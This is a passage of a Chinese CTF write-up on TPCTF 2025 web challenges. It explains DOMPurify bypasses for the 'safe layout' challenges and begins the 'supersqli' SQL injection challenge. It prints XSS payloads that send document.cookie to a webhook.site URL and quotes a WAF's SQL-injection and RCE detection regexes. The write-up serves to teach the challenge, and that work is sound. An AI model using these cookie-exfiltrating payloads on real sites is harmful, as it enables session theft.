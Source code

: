 content

```
a&#34; src=&#34;a&#34; onloadstart=&#34;fetch(&#39;https://webhook.site/0f676d3e-7a72-4491-af58-7419e600dabf?f=&#39; &#43; document.cookie)&#34;
```

必须有 src 属性，不然会报错

![image-20250311193529235](https://6s6photo.oss-cn-chengdu.aliyuncs.com/20250625174931411.png)

### safe layout revenge

这道就修复了上面的非预期，把 `ALLOW_ARIA_ATTR` 和 `ALLOW_DATA_ATTR` 都设为了 false

从 [出题人的wp](https://ouuan.moe/post/2025/03/tpctf-2025#baby-layout-81-solves) 中看到dompurify非常严格，`&lt;style&gt;`中的任何HTML标签都将被过滤。但是，正则表达式仅检查 `/&lt;[/\ w]/` ，因此不会过滤 `&lt;{{content}}` ，可以用其来绕过恶意的标签

但不能直接写在 style 标签里，因为 style 标签中的会被当作 css 解析，所以把 `{{content}}` 包裹在 style 便签里即可，第一个 `{{content}}` 是用来闭合第一个 style 标签的，而前面的 a 的话是开一个新的节点，干扰html解析规则啥的，没太懂，但是不加就会解析失败

layout

```
a&lt;style&gt;{{content}}&lt;{{content}}&lt;/style&gt;
```

content

```
img src=&#34;a&#34; onerror=fetch(`https://webhook.site/0f676d3e-7a72-4491-af58-7419e600dabf?f=`&#43;document.cookie) &lt;style&gt;&lt;/style&gt;
```

### supersqli

manage.py 加个参数启动服务器，方便调试

```
    if len(sys.argv) == 1:
        sys.argv.append(&#34;runserver&#34;)
```

在 `supersqli\web_deploy\src\blog\views.py` 文件中的 flag 函数中我们可以发现存在 sql 注入

![image-20250310174204987](https://6s6photo.oss-cn-chengdu.aliyuncs.com/20250625174931614.png)

但是 `supersqli\web_deploy\simplewaf\main.go` 中的 waf 限制的很死

```
var sqlInjectionPattern = regexp.MustCompile(`(?i)(union.*select|select.*from|insert.*into|update.*set|delete.*from|drop\s&#43;table|--|#|\*\/|\/\*)`)

var rcePattern = regexp.MustCompile(`(?i)(\b(?:os|exec|system|eval|passthru|shell_exec|phpinfo|popen|proc_open|pcntl_exec|assert)\s*\(.&#43;\))`)

var hotfixPattern = regexp.MustCompile(`(?i)(select)`)
```
